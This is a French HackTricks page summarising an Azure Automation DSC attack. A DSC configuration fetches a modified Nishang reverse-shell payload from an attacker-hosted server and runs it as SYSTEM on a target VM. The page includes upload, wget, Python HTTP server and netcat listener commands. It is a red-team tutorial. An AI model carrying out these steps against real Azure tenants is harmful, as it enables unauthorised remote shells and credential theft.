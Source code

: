 # Az - Configuration d'état RCE

<details>

<summary><strong>Apprenez le piratage AWS de zéro à héros avec</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Expert en équipe rouge AWS de HackTricks)</strong></a><strong>!</strong></summary>

Autres façons de soutenir HackTricks :

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou **télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop) !
* Obtenez le [**swag officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**La famille PEASS**](https://opensea.io/collection/the-peass-family), notre collection exclusive de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez-nous** sur **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Partagez vos astuces de piratage en soumettant des PR aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) dépôts GitHub.

</details>

**Consultez l'article complet sur : [https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe](https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe)**

### Résumé de la préparation de l'infrastructure du serveur distant (C2) et des étapes

#### Aperçu
Le processus implique la mise en place d'une infrastructure de serveur distant pour héberger une charge utile `Invoke-PowerShellTcp.ps1` de Nishang modifiée, nommée `RevPS.ps1`, conçue pour contourner Windows Defender. La charge utile est servie à partir d'une machine Kali Linux avec l'IP `40.84.7.74` en utilisant un serveur HTTP Python simple. L'opération est exécutée à travers plusieurs étapes :

#### Étape 1 — Créer des fichiers
- **Fichiers requis :** Deux scripts PowerShell sont nécessaires :
1. `reverse_shell_config.ps1` : Un fichier de configuration d'état souhaité (DSC) qui récupère et exécute la charge utile. Il est disponible sur [GitHub](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/reverse_shell_config.ps1).
2. `push_reverse_shell_config.ps1` : Un script pour publier la configuration sur la machine virtuelle, disponible sur [GitHub](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/push_reverse_shell_config.ps1).
- **Personnalisation :** Les variables et paramètres dans ces fichiers doivent être adaptés à l'environnement spécifique de l'utilisateur, y compris les noms de ressources, les chemins de fichiers et les identifiants de serveur/payload.

#### Étape 2 — Zipper le fichier de configuration
- Le fichier `reverse_shell_config.ps1` est compressé dans un fichier `.zip`, le rendant prêt pour le transfert vers le compte de stockage Azure.
```powershell
Compress-Archive -Path .\reverse_shell_config.ps1 -DestinationPath .\reverse_shell_config.ps1.zip
```
#### Étape 3 — Définir le contexte de stockage & Téléverser
- Le fichier de configuration compressé est téléversé dans un conteneur de stockage Azure prédéfini, azure-pentest, en utilisant la commande Set-AzStorageBlobContent d'Azure.
```powershell
Set-AzStorageBlobContent -File "reverse_shell_config.ps1.zip" -Container "azure-pentest" -Blob "reverse_shell_config.ps1.zip" -Context $ctx
```
#### Étape 4 — Préparation de la boîte Kali
- Le serveur Kali télécharge la charge utile RevPS.ps1 à partir d'un dépôt GitHub.
```bash
wget https://raw.githubusercontent.com/nickpupp0/AzureDSCAbuse/master/RevPS.ps1
```
- Le script est modifié pour spécifier la machine virtuelle Windows cible et le port pour le shell inversé.

#### Étape 5 — Publier le fichier de configuration
- Le fichier de configuration est exécuté, ce qui entraîne le déploiement du script de shell inversé à l'emplacement spécifié sur la machine virtuelle Windows.

#### Étape 6 — Héberger la charge utile et configurer l'écoute
- Un serveur Python SimpleHTTPServer est démarré pour héberger la charge utile, ainsi qu'un écouteur Netcat pour capturer les connexions entrantes.
```bash
sudo python -m SimpleHTTPServer 80
sudo nc -nlvp 443
```
- La tâche planifiée exécute la charge utile, obtenant ainsi des privilèges au niveau du SYSTEM.

#### Conclusion

La réussite de ce processus ouvre de nombreuses possibilités pour d'autres actions, telles que le vol d'informations d'identification ou l'extension de l'attaque à plusieurs machines virtuelles. Le guide encourage la poursuite de l'apprentissage et de la créativité dans le domaine de la configuration d'état Azure Automation DSC.

<details>

<summary><strong>Apprenez le piratage AWS de zéro à héros avec</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Autres façons de soutenir HackTricks :

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou **télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop) !
* Obtenez le [**swag officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**La famille PEASS**](https://opensea.io/collection/the-peass-family), notre collection exclusive de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez-nous** sur **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Partagez vos astuces de piratage en soumettant des PR aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
